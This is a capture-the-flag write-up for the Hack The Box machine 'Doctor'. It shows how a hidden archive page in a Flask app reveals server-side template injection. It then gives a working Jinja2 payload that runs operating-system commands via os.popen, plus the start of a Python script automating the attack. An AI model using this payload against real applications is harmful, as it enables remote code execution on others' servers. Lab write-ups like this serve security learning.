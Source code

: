![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/doctor/1.2.png){: .align-center}

There are options to post messages and check account details. Looking at the source code, we see a comment.

```html
<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```

Looks like there is some functionality that is still in testing.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/doctor/1.3.png){: .align-center}

Checking the page source of `/archive`, we can see that our post headings have been reflected in the page. 

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/doctor/1.3.png){: .align-center}
{% raw %}
The site is running flask and the image of the box pointed at a possibility of SSTI injection. We can try one out using a simple payload `{{7 * '7'}}`. If this works we will see `7777777` in archive page.
{% endraw %}

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/doctor/1.5.gif){: .align-center}

## Low Shell

So we have SSTI injection and we can add more payloads to get an RCE.

### SSTI to RCE

We have few challenges before trying out payloads.

1. If our payload causes an error, the message has to be deleted to check other payloads
2. The created user gets deleted after around 20 minutes, which was frustrating.

To make things easier, I created a script that will
1. Create a new user and login
2. Ask for a payload from the user
3. Create a message using the payload as the title
4. Get the output from the archive page
5. Delete the post

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/doctor/1.6.gif){: .align-center}


After trying out various payload, I found that the following can be used to running arbitrary code on the system. 

```py
f"config.__class__.__init__.__globals__['os'].popen('{cmd}').read()"
```

This will execute the command and post the output. I tweaked the script to include the RCE.
{% raw %}
```py
import requests
import random
import re
import html

def create_user():
	url = "http://doctors.htb/register"
	username = f"test{random.randint(0,1000)}"
	email = f"test{random.randint(0,1000)}@test.com"
	password = "test"
	data = {'username':username, 'email':email, 'password':password,'confirm_password':password, 'submit':'Sign Up'}
```